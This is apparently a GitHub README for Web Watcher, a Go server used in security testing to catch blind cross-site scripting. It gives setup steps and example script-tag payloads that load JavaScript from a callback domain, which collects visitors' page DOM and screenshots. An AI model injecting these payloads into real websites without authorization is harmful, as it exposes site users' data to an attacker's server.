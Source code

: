 # Web Watcher  
Golang server for testing blind XSS.   
Special endpoint for testing requests and file extensions.  

## Setup  
1. Install  
```
go install github.com/pichik/webwatcher@latest # isthiscomment?
```
2. Set permissions for ports 
```
sudo setcap CAP_NET_BIND_SERVICE+ep ~/go/bin/webwatcher
```

3. Setup `.wwconfig` and add it to your home directory.  
4. Make sure that `assets` and `templates` are in the directory specified in config.  


## Usage
Login to your website with /login?token=[token]  

After authentication, you can find all requests in `/results/all`.  
Left side is from  XSS requests.  
Right side is from custom path requests.  
![results](screenshots/results.png)  


### Collecting simple request data from path you specified in config  
This endpoint will contain response specified in `assets/extensions.json` file  

**Example:**  
Set `"CollectorPath":"examplepath"` in `.wwconfig`  
Set `.js` extension with payload `alert(1)` in `assets/extensions.json`  
Insert this payload to the website, alert will popup.  
`<script src=https://domain.com/examplepath.js></script>`  

### Collecting data from blind XSS  
You can find detailed report for your XSS, with DOM and Screenshort.  
These request will be sent to slack, if specified in config.
`<script src=https://example.com></script>`  
![blind xss](screenshots/blindxss.png)  



